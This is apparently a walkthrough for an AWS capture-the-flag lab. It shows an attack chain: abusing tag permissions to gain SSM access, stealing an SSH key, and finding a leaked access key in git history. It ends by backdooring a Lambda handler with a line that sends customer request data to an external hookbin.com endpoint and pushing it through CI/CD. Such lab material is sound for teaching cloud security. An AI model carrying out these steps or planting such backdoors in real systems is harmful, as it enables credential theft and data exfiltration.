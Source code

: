

## Step 1

You are given credentials of an initial IAM user. 

Using the AWS CLI or AWS Console (e.g. using `aws-vault add initial` then `aws-vault login initial --no-session`), note that the IAM policy attached to your user allows it to establish a SSM session on all EC2 instances tagged with `Environment=sandbox`, and to manage tags of all EC2 instances tagged with `Environment=dev`.

Check the running EC2 instances. You notice one is tagged with `Environment=dev`, and you therefore can't SSM to it. Instead, overwrite the `Environment` tag with the value `sandbox`, then establish a SSM session to the instance:

```
aws ec2 create-tags --resources i-xxxx --tags Key=Environment,Value=sandbox
aws ssm start-session --target i-xxxx
```

## Step 2

Once on the instance, notice the private SSH key stored at `/home/ssm-user/.ssh/id_rsa`. You can extract the corresponding public key fingerprint to notice it is linked to the CodeCommit credentials of the IAM user `cloner`, who has the permission `codecommit:GitPull` on a repository:

```
$ ssh-keygen -f .ssh/stolen_key -l -E md5
2048 MD5:be:5e:49:5e:e5:d0:66:bb:91:30:3f:66:2e:97:1a:11

$ aws iam list-ssh-public-keys --user-name cloner
{
  "SSHPublicKeys": [
    {
      "UserName": "cloner",
      "SSHPublicKeyId": "APKA254BBSGPK2B5K5YQ",
      "Status": "Active",
      "UploadDate": "2021-12-27T10:34:19+00:00"
    }
  ]
}
$ aws iam get-ssh-public-key --user-name cloner --ssh-public-key-id APKA254BBSGPK2B5K5YQ --encoding PEM --output text --query 'SSHPublicKey.Fingerprint' 
be:5e:49:5e:e5:d0:66:bb:91:30:3f:66
```

## Step 3

Set up your local environment to clone the repository using the [CodeCommit documentation](https://docs.aws.amazon.com/codecommit/latest/userguide/setting-up-ssh-unixes.html). In short:

- Copy the SSH key to your local machine (`.ssh/stolen_key`) and `chmod 700` it

- Find the CodeCommit user ID of `cloner` using `aws iam list-ssh-public-keys --user-name cloner --output text --query 'SSHPublicKeys[0].SSHPublicKeyId'`

- Use the following SSH configuration (in your `.ssh/config`):

```
Host *.amazonaws.com
	IdentityFile ~/.ssh/stolen_key
```

- Then, clone the repository using `git clone ssh://APKA2...@git-codecommit.eu-west-1.amazonaws.com/v1/repos/backend-api`

## Step 4

The repository contains the backend code of the Lambda function exposed through the API gateway. Check the commit history to note a leaked access key:

```diff
commit 576bc9e2979cb780dacefa1cf758dabb29f6b223
Author: christophe <christophe>
Date:   Mon Dec 27 10:38:31 2021 +0000

    Use built-in AWS authentication instead of hardcoded keys

diff --git a/buildspec.yml b/buildspec.yml
index 7130465..4beaa61 100644
--- a/buildspec.yml
+++ b/buildspec.yml
@@ -1,22 +1,20 @@
-      version: 0.2
+version: 0.2
 phases:
   pre_build:
     commands:
-    - export AWS_ACCESS_KEY_ID=AKIA...
-    - export AWS_SECRET_ACCESS_KEY=hnOVW...dtX
     - echo "Authenticating to ECR"
```

## Step 5

These credentials you found belong to the user `developer`, who has pull and push access to this repository. Use this access to backdoor the application and steal the sensitive data that customers are sending to the API!

- For instance, add a piece of code that sends the secret data to an attacker-controlled server:

```diff
diff --git a/app.py b/app.py
index 10e7da5..e17a2ba 100644
--- a/app.py
+++ b/app.py
@@ -3,6 +3,7 @@ import json

 def handle(event):
   body = event.get('body')
+  import requests; requests.post("https://hookbin.com/kx9QGWGQMoUBjzggjga9", data=body)
   if body is None:
     return 400, "missing body"
```

- Commit the file and push it. The easiest is to use the AWS Console. You can also use the AWS CLI:

```
$ aws codecommit get-branch --repository-name backend-api  --branch-name master
{
    "branch": {
        "branchName": "master",
        "commitId": "e6a2c7fb17e3759d120404d2b0fe28b92c0a755e"
    }
}

$ aws codecommit put-file --repository-name backend-api --branch-name master --file-content fileb://./app.py --file-path app.py --parent-commit-id e6a2c7fb17e3759d120404d2b0fe28b92c0a755e
```


Note that the application is automatically being built by a CI/CD pipeline in CodePipeline. After a few minutes, your backdoored application will be deployed, and your attacker-controlled server will receive the flag!


